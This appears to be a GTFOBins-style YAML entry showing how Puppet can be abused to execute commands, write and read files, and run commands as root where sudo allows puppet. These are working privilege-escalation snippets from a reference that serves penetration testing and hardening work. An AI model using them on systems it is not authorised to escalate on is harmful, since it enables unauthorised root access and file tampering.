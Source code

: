 ```yaml
---
functions:
  execute-non-interactive:
    - description: The executed command output shown in the puppet log format.
      code: |
        export CMD="/usr/bin/id"
        puppet apply -e "exec { '$CMD': logoutput => true }"
  file-write:
    - description: The file path must be absolute.
      code: |
        export LFILE="/tmp/file_to_write"
        puppet apply -e "file { '$LFILE': content => 'DATA' }"
  file-read:
    - description: The read file content is corrupted by the `diff` output format. The actual `/usr/bin/diff` command is executed.
      code: |
        export LFILE=file_to_read
        puppet filebucket -l diff /dev/null $LFILE
  sudo-enabled:
    - description: The executed command output shown in the puppet log format.
      code: |
        export CMD="/usr/bin/id"
        sudo puppet apply -e "exec { '$CMD': logoutput => true }"
---
```

